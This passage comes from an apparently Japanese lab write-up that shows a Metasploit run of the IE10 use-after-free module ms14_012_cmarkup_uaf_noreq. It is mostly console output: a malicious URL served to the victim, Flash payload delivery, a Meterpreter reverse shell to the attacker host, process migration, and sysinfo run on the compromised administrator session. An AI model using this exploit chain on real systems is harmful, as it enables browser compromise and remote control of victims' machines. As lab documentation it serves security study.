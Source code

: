```

   Id  Name 
   --  ---- 
   0   Windows 7 SP1 / IE 10 / FP 12


msf exploit(ms14_012_cmarkup_uaf_noreq) > run 
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.80:4455 
msf exploit(ms14_012_cmarkup_uaf_noreq) > [*] Using URL: http://10.10.10.80:8080/snowman 
[*] Server started.
```
 
IE10 から [http://10.10.10.80:8080/snowman](http://10.10.10.80:8080/snowman) を開くと・・・今度は侵入成功です。実は百発百中というわけではなく、まれに侵入に失敗して、IE が単純にクラッシュするだけになることも。

 
```
msf exploit(ms14_012_cmarkup_uaf_noreq) > run 
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.80:4455 
msf exploit(ms14_012_cmarkup_uaf_noreq) > [*] Using URL: http://10.10.10.80:8080/snowman 
[*] Server started. 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Request: /snowman 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Gathering target information. 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Sending response HTML. 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Request: /snowman/cSKqY/ 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Request: /snowman/fHEwZx/ 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Sending HTML... 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Request: /snowman/fHEwZx/zxqcZz.swf 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Sending SWF... 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Request: /snowman/fHEwZx/zxqcZz.swf 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Sending SWF... 
[*] Sending stage (769536 bytes) to 10.10.10.96 
[*] Meterpreter session 1 opened (10.10.10.80:4455 -> 10.10.10.96:49237) at 2014-08-11 23:37:31 -0700 
[*] Session ID 1 (10.10.10.80:4455 -> 10.10.10.96:49237) processing InitialAutoRunScript 'migrate -f' 
[*] Current server process: IEXPLORE.EXE (776) 
[*] Spawning notepad.exe process to migrate to 
[+] Migrating to 3004 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Request: /snowman/fHEwZx/ 
[*] 10.10.10.96      ms14_012_cmarkup_uaf_noreq - Target with tag "ZCVaVZ" wants to retry the module, not allowed. 
[+] Successfully migrated to process

msf exploit(ms14_012_cmarkup_uaf_noreq) > sessions

Active sessions 
===============

  Id  Type                   Information                        Connection 
  --  ----                   -----------                        ---------- 
  1   meterpreter x86/win32  CONTOSO\administrator @ WIN8AMD64  10.10.10.80:4455 -> 10.10.10.96:49237 (10.10.10.96)

msf exploit(ms14_012_cmarkup_uaf_noreq) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN8AMD64 
OS              : Windows 8 (Build 9200). 
```